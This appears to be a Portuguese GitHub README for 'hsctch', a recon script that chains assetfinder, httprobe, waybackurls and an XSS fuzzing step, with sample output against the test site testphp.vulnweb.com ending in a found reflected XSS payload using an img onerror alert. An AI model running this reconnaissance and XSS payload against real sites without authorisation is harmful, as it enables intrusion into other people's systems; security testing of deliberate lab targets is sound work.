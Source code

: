 # hsctch

#Acessar a pasta onde fez o o download o arquivo .git

#Para executar use o comando abaixo:

#python3 /root/reconx-hsctch.py 

#Digite o domínio alvo (exemplo: dominio.com.br): 

testphp.vulnweb.com



_    _  _____  _____ _______ _____ _    _
| |  | |/ ____|/ ____|__   __/ ____| |  | |
| |__| | (___ | |       | | | |    | |__| |
|  __  |\___ \| |       | | | |    |  __  |
| |  | |____) | |____   | | | |____| |  | |
|_|  |_|_____/ \_____|  |_|  \_____|_|  |_|

                                           

Executando: 

Executando assetfinder
Comando: assetfinder -subs-only testphp.vulnweb.com | anew subdomains.txt
Saída: 
Executando assetfinder concluído com sucesso.

Executando: Executando httprobe
Comando: cat subdomains.txt | httprobe | tee -a host.txt
Saída: http://testphp.vulnweb.com

Executando httprobe concluído com sucesso.
Executando: Executando waybackurls
Comando: cat host.txt | waybackurls | tee -a endpoint.txt

Executando freq para encontrar possíveis XSS concluído com sucesso.
Executando: Buscando por XSS FOUND
Comando: grep 'XSS FOUND' possible_xss.txt > resultado.txt
Saída:
Buscando por XSS FOUND concluído com sucesso.
Busca concluída.

#ls

endpoint.txt  host.txt  possible_xss.txt  resultado.txt  subdomains.txt  xss_fuzz.txt

#cat resultado.txt

XSS FOUND: http://testphp.vulnweb.com:80/hpp/index.php?pp=%22%22%3E%3Cimg+src%3Dx+onerror%3Dalert%281%29%3E%22




